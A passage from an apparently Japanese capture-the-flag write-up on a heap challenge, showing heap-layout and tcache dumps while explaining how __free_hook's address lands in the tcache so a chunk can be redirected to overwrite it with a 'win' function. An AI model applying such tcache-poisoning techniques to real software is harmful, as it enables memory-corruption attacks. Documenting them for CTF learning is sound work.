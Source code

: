 ```
        ||
        \/
[ 0x00007f6c481f38e8(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

予想通りtcacheに`__free_hook`のアドレス: `0x00007f6c481f38e8`が繋がっていることがわかる。
ということは、最小2回のmallocでこのアドレスをBが指すようになり、編集をして`__free_hook`を`win`に向けることが出来そう

### サイズを改竄する

...なのだが、この問題では連続して2回mallocすることは出来ない、つまり一度Bを再確保した後にBを解放し、もう一度Bを確保する必要がある。
ではその通りにしてみた結果が次の通り

```
-=-=-=-=-= HEAP LAYOUT =-=-=-=-=-
 [+] A = 0x56398dde0330
 [+] B = 0x56398dde0350

                   +--------------------+
0x000056398dde0320 | 0x0000000000000000 |
                   +--------------------+
0x000056398dde0328 | 0x0000000000000021 |
                   +--------------------+
0x000056398dde0330 | 0x6161616161616161 | <-- A
                   +--------------------+
0x000056398dde0338 | 0x6161616161616161 |
                   +--------------------+
0x000056398dde0340 | 0x6161616161616161 |
                   +--------------------+
0x000056398dde0348 | 0x0000000000000021 |
                   +--------------------+
0x000056398dde0350 | 0x00007f0a6b6e756a | <-- B
                   +--------------------+
0x000056398dde0358 | 0x000000000000000a |
                   +--------------------+
0x000056398dde0360 | 0x0000000000000000 |
                   +--------------------+
0x000056398dde0368 | 0x0000000000020ca1 |
                   +--------------------+
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x00007f39dd5e38e8(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
